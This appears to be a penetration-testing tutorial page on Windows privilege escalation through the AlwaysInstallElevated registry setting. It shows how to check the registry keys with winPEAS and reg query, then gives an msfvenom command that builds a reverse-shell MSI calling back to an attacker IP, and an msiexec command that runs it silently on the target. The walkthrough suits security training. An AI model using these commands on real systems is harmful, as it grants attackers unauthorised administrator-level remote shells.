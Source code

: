 # AlwaysInstallElevated

MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work.

Use winPEAS to see if both registry values are set:

```
winPEASany.exe quiet windowscreds
```

![](<../../../../.gitbook/assets/image (146).png>)

Alternatively, verify the values manually:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](<../../../../.gitbook/assets/image (151).png>)

{% hint style="info" %}
note that both of these registry key values should be set to 1. otherwise we cant use this attack vector.
{% endhint %}

Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f msi -o VirtualBox\ VMs/shares/installer.msi
```

send the reverse shell to victim machine and run the installer with msiexec:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

![](<../../../../.gitbook/assets/image (147).png>)
